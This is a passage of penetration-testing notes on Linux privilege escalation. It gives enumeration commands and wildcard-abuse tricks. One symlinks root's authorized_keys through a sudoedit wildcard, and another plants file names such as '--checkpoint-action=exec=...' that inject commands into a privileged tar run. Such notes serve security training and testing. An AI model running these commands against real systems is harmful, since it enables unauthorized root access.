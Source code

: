 ```
Kali> cat /etc/fstab
Kali> mount
```

##### Exim

```
Kali> exim -bV -v | grep -i Perl
```

##### Wildcard Manipulation

> ###### Resources

[UNIX Wildcards gone wild](https://www.gitbook.com/book/dostoevskylabs/dostoevskylabs-pentest-notes/edit#)

> ###### Sudoedit

```
# if sudoedit is using wildcards you can escape out with a few techniques
# Such as:  (root) NOPASSWD: sudoedit /var/www/*/*/file.html
Kali> ln -s /root/.ssh/authorized_keys /var/www/testing/testdir/file.html
# Now when you add your key to this file, you will be able to login to root, for example
```

> ###### Tar

```
# If there is a script running as an authorized user that uses wildcards to tar a folder, you can inject command line arguments via:
Kali> echo '' > "--checkpoint-action=exec='sh shell.sh'"
Kali> echo '' > "--checkpoint=1"
```
